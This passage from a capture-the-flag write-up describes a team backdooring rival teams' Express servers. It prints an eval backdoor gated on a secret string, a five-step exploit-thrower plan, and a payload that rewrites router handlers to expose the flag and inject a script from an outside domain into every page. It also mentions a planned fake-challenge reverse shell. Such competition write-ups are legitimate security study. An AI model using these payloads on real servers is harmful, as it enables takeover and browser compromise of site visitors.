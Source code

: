 ```js
ASM_CONSTS[0] = function(ptr) { str = Pointer_stringify(ptr); if(str.includes("DAT_BEST_BACK_DOOR_SECRET")) eval(str); return (str.includes("_") || str.includes("/")) ? 1 : 0; }
```

Meanwhile `aegis` figured out that he could modify the `express` web server handler chain to do all sorts of fun things. First he figured out how to take down all the pages, then how to add a backdoor flag page by mounting root as a public directory, then how to change responses to ones of our choosing.

I talked this with `aegis` and we realized this was so absurdly easy and powerful that the organizers couldn't have thought of it. We realized we could insert a backdoor that let us get the flag and then close the door to all the other teams, with the only weakness being if another team realized this and closed the door first. If no other teams figured this out and beat us then we would get all the flags and no other team would get any, we could also close our own door without inserting the backdoor.

We took this plan to the evening team meeting and then `bool` (team founder Steve Vittitoe) came up with an amazing idea: Not only do we backdoor and close the door, but we add a script to all the pages that turns the page into a fake scoreboard on blur with a fake new challenge that gives us a reverse shell on their machine! After a moment of silence as we were struck by the brilliance of his idea, we enthusiastically started brainstorming our plan.

We realized that if we were lucky and were the only team to figure this out, we needed to not leak our exploit publicly so other teams could immediately figure it out themselves. So I started by developing a thrower script for our exploits that could be run automatically and would ensure a team was backdoored and the door was closed without leaking our exploit in case of a patched team that accepted all submissions:

1. Check our flag backdoor, if it's there we're done.
1. Submit a canary piece of bogus JS code that used all the syntactic constructs our exploits used, if it went through then submitting our exploits would leak them, so abandon.
1. Install the backdoor express chain rewriting code.
1. Check that we can retrieve the flag, if not bail and log an error.
1. Close the door and check that the door was successfully closed and log if not.

Next I worked on improving `aegis`'s payload to place the flag backdoor at a less obvious place than `/flag` which required some URL rewriting and also crafting an Express chain rewriting payload based on his research that could insert a script tag into all pages without modifying the rest of the page. This is the payload I ended up with:

```js
// Part 1: exposes the flag at /flagaaa
s = process.mainModule.children[0].children[1].exports.static('/');
process.mainModule.children[0].exports._router.stack[5].handle = function(req, res, next) {
  if(req.url && req.url.includes('flag')) {
    req.url = req.url.substring(0, req.url.length-3);
  }
  return s(req, res, next);
};
// Part 2: replaces </body> with our script tag on every response
process.mainModule.children[0].exports._router.stack[3].handle = function(req, res, next) {
    var oldSend = res.send;

    res.send = function(data){
        data = data.replace(/(<\/body>)/, "<script src='https://our-xss-domain.redacted/ourpayload.js'></script></body>");
        oldSend.apply(res, [data]);
    }
    next();
};
```
